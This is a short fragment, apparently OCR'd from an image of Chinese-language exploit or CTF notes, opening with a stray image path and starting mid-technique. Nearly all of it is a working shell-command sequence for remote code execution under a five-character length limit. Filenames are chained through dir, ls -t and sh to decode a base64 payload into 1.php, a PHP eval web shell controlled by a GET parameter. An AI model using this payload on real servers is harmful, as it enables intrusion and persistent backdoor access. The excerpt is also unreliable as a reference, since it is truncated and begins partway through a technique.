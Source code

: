     >PD9\\
    >o\ \\
    >ech\\
    ls -t>0
    sh 0

    ```


* 5字符RCE

    目的：echo${IFS}PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 ‐d>1.php

    使用dir可以不换行将当前目录下文件名输出

    ```php

    >dir
    >f\>
    >ht-
    >sl
    *>v
    >rev
    *v>0
    >a
    >hp
    >p\\
    >1.\\
    >\>\\
    >-d\\
    >\ \\
    >64\\
    >se\\
    >ba\\
    >\|\\
    >7\\
    >Sk\\
    >X\\
    >x\\
    >Fs\\
    >FV\\
    >d\\
    >X0\\
    >k\\
    >g\\
    >bC\\
    >h\\
    >XZ\\
    >gZ\\
    >A\\
    >aH\\
    >w\\
    >D9\\
    >P\\
    >S}\\
    >IF\\
    >{\\
    >\$\\
    >o\\
    >ch\\
    >e\\
    sh 0
    sh f
